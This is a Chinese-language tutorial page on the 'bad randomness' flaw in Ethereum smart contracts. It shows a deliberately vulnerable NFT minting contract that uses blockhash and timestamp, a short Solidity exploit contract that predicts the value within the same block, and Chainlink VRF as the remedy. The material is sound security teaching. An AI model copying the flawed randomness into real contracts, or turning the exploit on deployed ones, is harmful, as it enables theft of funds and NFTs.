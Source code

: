 ```yaml
---
title: 随机性漏洞
displayed_sidebar: generalSidebar
keywords:
  - smart contracts
  - security
  - vulnerabilities
  - randomness
  - nft
  - gamefi
  - ethereum
  - solidity
  - pseudo-random
  - blockhash
  - keccak256
  - chainlink-vrf
tags: [ 随机性漏洞, Security, 智能合约 ]
---
```


# 随机性漏洞

## 伪随机数

以太坊上的许多应用程序，比如 NFT 随机 tokenId 抽奖、盲盒开启和 GameFi 战斗结果，都依赖于随机数。 然而，由于以太坊上的所有数据都是公开和确定性的，传统的随机生成方法如 `random()` 并不可用。

相反，项目通常使用伪随机数生成器，`blockhash()`和`keccak256()`。 这种方法被称为随机性漏洞（Bad Randomness Vulnerability），使攻击者能够预测结果，从而操纵结果，例如铸造特定的稀有 NFT。

这种漏洞在NFT和GameFi项目中很常见，包括Meebits, Loots, and Wolf Game。 它已经造成了重大的财务损失，比如 SmartBillions 彩票漏洞，攻击者利用可预测的结果赢得了超过 400 ETH。 更多信息请参阅文章, [区块链彩票被黑客攻击，损失12万美元](https://crypto.news/blockchain-lottery-smartbillions-hacked-for-120000/)。

## 随机性漏洞示例

我们来探讨一个存在漏洞的NFT合约，`FlawedRandomizer.sol`。

```solidity
contract FlawedRandomizer is ERC721 {
    uint256 public totalMints;

    // Constructor initializes the NFT collection's name and symbol.
    constructor() ERC721("", ""){}

    // Mint function: mints only when the input luckyNumber equals the random number.
    function mintIfLucky(uint256 guessedNumber) public {
        uint256 pseudoRandomNumber = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))) % 100; // Get pseudo-random number
        require(pseudoRandomNumber == guessedNumber, "Try again next time!");

        _mint(msg.sender, totalMints);
        totalMints++;
    }
}
```

主函数`mintIfLucky()`要求用户输入一个`0-99`之间的数字。 如果与链生成的伪随机数 `pseudoRandomNumber`匹配，则可以铸造一枚幸运的NFT。 漏洞在于用户能够完全预测生成的随机数并铸造NFT。

我们编写一个攻击合约`Exploit.sol`。

```solidity
contract Exploit {
    function executeMint(FlawedRandomizer nftAddress) public {
        // Calculate the random number in advance
        uint256 predictedNumber = uint256(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        ) % 100;
        // Use predictedNumber to execute the attack
        nftAddress.mintIfLucky(predictedNumber);
    }
}
```

函数`executeMint()` 以`FlawedRandomizer`合约地址为参数。 在这里，我们计算`predictedNumber`，然后将其传递到`mintIfLucky()` 函数来执行攻击。 由于在同一个区块中调用`executeMint()` 和 `mintIfLucky()`，`blockhash`和`block.timestamp`是相同的，因此可以预测生成的随机数字。

## 预防策略

使用Oracle项目提供的链下随机数来防止这种类型的漏洞，例如Chainlink VRF。 这些随机数是在链下生成的，并上传到区块链，确保它们是不可预测的。

